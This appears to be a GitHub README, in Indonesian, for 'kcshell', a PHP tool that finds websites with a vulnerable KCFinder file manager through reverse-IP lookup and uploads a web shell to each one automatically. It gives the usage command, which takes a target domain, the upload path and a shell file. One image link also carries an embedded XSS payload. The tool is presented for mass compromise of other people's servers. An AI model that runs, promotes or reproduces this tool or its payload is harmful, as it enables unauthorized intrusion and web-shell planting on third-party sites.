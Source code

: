 # kcshell
kcfinder auto reverse ip + upshell

Ketika gw nemu web vuln kcfinder tapi males buat reverse ip > cek path > upshell one by one
gw coba buat sebisanya buat ngilangin malas :v

command : php kcf.php example.com path/to/kcfinder/upload.php path/to/shell


![image](https://github.com/xcapri/kcshell/blob/master/kc60.png)


![image](https://github.com/xcapri/kcshell/blob/master/"/></a><img src=// onclick=alert(1)>kc60.png)
